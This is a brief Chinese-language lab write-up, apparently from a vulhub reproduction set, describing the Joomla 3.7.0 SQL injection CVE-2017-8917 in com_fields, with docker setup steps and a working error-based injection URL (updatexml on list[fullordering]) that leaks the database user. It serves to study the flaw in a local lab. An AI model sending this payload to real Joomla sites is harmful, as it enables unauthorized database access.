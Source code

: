 # Joomla 3.7.0  SQL注入漏洞CVE-2017-8917

#### 简介

漏洞是由此Joomla 3.7.0 版本中引入的新组件（com\_fields）带来的

#### 环境搭建

cd /root/vulhub/joomla/CVE-2017-8917 docker-compose up -d ![](./Joomla 3.7.0  SQL注入漏洞CVE-2017-8917/20200619122952854.png) 

启动后访问http://your-ip:8080即可看到Joomla的安装界面 按照顺序安装即可 安装完成后，访问http://your-ip:8080/index.php?option=com\_fields&view=fields&layout=modal&list\[fullordering\]=updatexml(0x23,concat(1,user()),1)，即可看到报错信息： ![](./Joomla 3.7.0  SQL注入漏洞CVE-2017-8917/20200619123002609.png)